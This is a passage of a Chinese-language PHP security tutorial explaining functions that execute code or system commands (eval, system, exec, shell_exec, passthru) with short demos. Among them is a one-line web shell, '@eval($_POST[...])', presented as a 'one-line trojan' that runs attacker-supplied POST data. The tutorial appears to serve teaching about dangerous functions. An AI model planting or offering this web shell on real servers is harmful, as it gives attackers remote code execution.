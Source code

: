  **`eval()` 函数把字符串按照 PHP 代码来计算，即执行PHP代码**

Demo：将其中的内容按照PHP代码执行

  *   *   *   * 

    
    
    echo 'echo "我想学php"';     //echo "我想学php"eval('echo "我想学php";');   //"我想学php"Demo：一句话木马将参数传到 eval()  函数内执行@eval($_POST['AabyssTeam']);

###

### 3.2 system()

 **`system()` 函数的主要功能是在系统权限允许的情况下，执行系统命令（Windows系统和Linux系统均可执行）**

Demo：执行Whoami并回显

  *   * 

    
    
    system('whoami');  
    

### 3.3 exec()

 **`exec()` 函数可以执行系统命令，但它不会直接输出结果，而是将执行的结果保存到数组中**

Demo：将 `exec()` 函数执行的结果导入result数组

  *   * 

    
    
    exec( 'ls' , $result );print_r($result);        //Array ( [0] => index.php )

### 3.4 shell_exec()

 **`shell_exec()` 函数可以执行系统命令，但不会直接输出执行的结果，而是返回一个字符串类型的变量来存储系统命令的执行结果**

Demo：执行 `ls` 命令

  * 

    
    
    echo shell_exec('ls');    //index.php

###

### 3.5 passthru()

 **`passthru()` 函数可以执行系统命令并将执行结果输出到页面中**

与 `system()` 函数不同的是，它支持二进制的数据，使用时直接在参数中传递字符串类型的系统命令即可

Demo：执行 `ls` 命令

  * 

    
    
    passthru('ls');    //index.php
